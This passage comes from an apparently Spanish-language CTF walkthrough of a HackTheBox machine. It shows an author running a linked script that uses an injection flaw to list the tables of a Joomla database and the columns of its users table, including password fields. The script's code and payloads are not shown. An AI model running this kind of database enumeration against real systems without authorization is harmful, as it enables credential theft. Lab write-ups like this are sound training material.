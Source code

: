 **Creamos un script (completo y con varios cambios) que contenga todas las extracciones, asi es muuuucho más fácil de movernos entre bases de datos, tablas y columnas ;P**

> [ex_all.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/enterprise/ex_all.py)

...

Veamos la base de datos **joomla**:

```bash
❭ python3 ex_all.py joomla
[+] Extrayendo tablas de la base de datos joomla: d0Ne
[+] Payload: d0Ne
------------------------------------------·

```

Está vacía, juguemos entonces con la base de datos **joomladb** (que si revisamos nuestro escaneo de `nmap`, nos indicaba que el puerto **8080** está sirviendo un CMS **Joomla**):

```bash
❭ python3 ex_all.py joomladb  
[+] Extrayendo tablas de la base de datos joomladb: d0Ne
[+] Payload: d0Ne
------------------------------------------·  
[+] Tabla [0]: edz2g_assets                  
...
...
...
[+] Tabla [69]: edz2g_users
[+] Tabla [70]: edz2g_utf8_conversion
[+] Tabla [71]: edz2g_viewlevels
```

Bien, enumeremos la tabla `edz2g_users`:

```bash
❭ python3 ex_all.py joomladb edz2g_users
[+] Extrayendo columnas de la tabla edz2g_users: d0Ne
[+] Payload: d0Ne
------------------------------------------·
[+] Columna [0]: id
[+] Columna [1]: name
[+] Columna [2]: username
[+] Columna [3]: email
[+] Columna [4]: password
[+] Columna [5]: block
[+] Columna [6]: sendEmail
[+] Columna [7]: registerDate
[+] Columna [8]: lastvisitDate
[+] Columna [9]: activation
[+] Columna [10]: params
[+] Columna [11]: lastReset
[+] Columna [12]: resetCount
[+] Columna [13]: otpKey
[+] Columna [14]: otep
[+] Columna [15]: requireReset
```
